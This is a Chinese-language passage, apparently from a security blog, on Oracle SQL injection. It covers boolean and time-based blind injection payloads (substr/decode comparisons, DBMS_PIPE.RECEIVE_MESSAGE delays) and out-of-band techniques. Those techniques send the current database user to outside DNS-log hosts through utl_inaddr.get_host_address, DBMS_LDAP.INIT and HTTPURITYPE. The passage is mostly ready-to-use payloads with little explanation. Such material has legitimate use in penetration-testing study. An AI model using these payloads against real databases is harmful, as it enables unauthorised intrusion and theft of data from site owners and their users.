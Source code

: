## 盲注
### 布尔盲注
布尔盲注第一种是可以使用简单的字符串比较来进行，比如：
```sql
http://localhost:8080/oracleInject/index?username=admin' and (select substr(user, 1, 1) from dual)='S' --
```
然后还有一种是通过decode配合除数为0来进行布尔盲注。
```sql
http://localhost:8080/oracleInject/index?username=admin' and 1=(select decode(substr(user, 1, 1), 'S', (1/1),0) from dual) --
```
### 时间盲注
1. 大量数据
```sql
select count(*) from all_objects
```
缺点就是不准。

2. 时间延迟函数
```sql
select 1 from dual where DBMS_PIPE.RECEIVE_MESSAGE('asd', REPLACE((SELECT substr(user, 1, 1) FROM dual), 'S', 10))=1;
```
![image](https://y4er.com/img/uploads/20200318214321.png)
还可以配合decode
```sql
select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual;
```

## 带外OOB
类似于MySQL load_file的带外盲注。OOB 都需要发起网络请求的权限，有限制。

### utl_http.request
需要出外网HTTP
![image](https://y4er.com/img/uploads/20200318210020.png)

### utl_inaddr.get_host_address
dns解析带外
```sql
select utl_inaddr.get_host_address((select user from dual)||'.cbb1ya.dnslog.cn') from dual
```
![image](https://y4er.com/img/uploads/20200318215662.png)
### SYS.DBMS_LDAP.INIT
**这个函数在 10g/11g 中是 public 权限.**
```sql
SELECT DBMS_LDAP.INIT((select user from dual)||'.24wypw.dnslog.cn',80) FROM DUAL;
```
### HTTPURITYPE
```sql
SELECT HTTPURITYPE((select user from dual)||'.24wypw.dnslog.cn').GETCLOB() FROM DUAL;
```
### 其他
如果 Oracle 版本 <= 10g，可以尝试以下函数：
1. UTL_INADDR.GET_HOST_ADDRESS
2. UTL_HTTP.REQUEST
3. HTTP_URITYPE.GETCLOB
4. DBMS_LDAP.INIT and UTL_TCP
